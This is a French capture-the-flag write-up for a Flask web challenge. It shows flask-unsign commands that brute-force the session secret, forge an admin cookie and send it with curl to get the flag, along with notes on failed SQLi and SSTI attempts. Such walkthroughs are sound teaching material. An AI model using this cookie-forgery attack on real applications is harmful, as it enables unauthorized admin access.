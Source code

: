 # Flasque

## Énoncé

Nos développeurs se sont surpassés pour renforcer la sécurité de notre application (au prix d'une interface web minimaliste).

Vérifiez la robustesse de cette nouvelle sécurité !

https://flasque.izo27k5.org 

## Solution

On se retrouve face à une appli web qui nous permet de nous enregistrer, de nous connecter, et présente un lien
vers un espace admin qui ne nous est pas accessible. Comme le titre le laisse entendre, il s'agit d'une application
Flask, cela se voit notamment sur le contenu du cookie qui est typique. Celui-ci contient par exemple :
`{"access_level":"guest","password":"coin","username":"plop"}`. On suppose que l'access_level demande à être passé à 
admin pour atteindre la zone protégée.

On note des comportements bizarres de l'appli :
- pas besoin de s'enregistrer avant de se connecter.
- il n'est même pas nécessaire de fournir un mot de passe pour se connecter.
- le mot de passe apparaît dans le cookie, mais seulement lors du register.

À partir de là, j'ai testé un nombre incroyable de trucs :
- des SQLi, des injections JSON
- des SSTI dans le nom d'utilisateur (il est réfléchis par l'appli)
- la recherche de fichiers et/ou répertoires connus.
- j'ai tenté de péter la clef secrète permettant de signer les cookies, à partir de rockyou. Sans grande conviction, car c'est le même principe pour [Jeton Doré](../Jeton_Doré/Jeton%20Doré.md).

En vain. Et puis, j'ai lancé [flask-unsign](https://pypi.org/project/flask-unsign/) :

```console
$ flask-unsign --unsign -c eyJhY2Nlc3NfbGV2ZWwiOiJndWVzdCIsInBhc3N3b3JkIjoiY29pbiIsInVzZXJuYW1lIjoicGxvcCJ9.Yyynhw.5rOpE8UDFJWqbfPy67_X4cqM6q4 
[*] Session decodes to: {'access_level': 'guest', 'password': 'coin', 'username': 'plop'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (13952): esdfasdfasdfea887bf2e856738055
[*] Attempted (24704): -----BEGIN PRIVATE KEY-----89f
[+] Found secret key after 45952 attemptsbywqIDen3Tce
'risky@2'
```

Ok, donc il fallait juste avoir la bonne wordlist.

Donc il nous reste à forger notre cookie avec le bon `access_level` et de tenter d'accéder à la zone admin :


```console
$ flask-unsign --sign --secret risky@2 -c '{"access_level":"admin","password":"coin","username":"plop"}'
eyJhY2Nlc3NfbGV2ZWwiOiJhZG1pbiIsInBhc3N3b3JkIjoiY29pbiIsInVzZXJuYW1lIjoicGxvcCJ9.YyyrcQ.sLXy7FaPFRB6q5v6_WybT-rxv6o

$ curl "https://flasque.izo27k5.org/admin" -H "Cookie: session=eyJhY2Nlc3NfbGV2ZWwiOiJhZG1pbiIsInBhc3N3b3JkIjoiY29pbiIsInVzZXJuYW1lIjoicGxvcCJ9.YyyrcQ.sLXy7FaPFRB6q5v6_WybT-rxv6o"
Welcome Admin ! Flag : INNN{My_5e3310n_is_Fl4sK}
```

Mouais...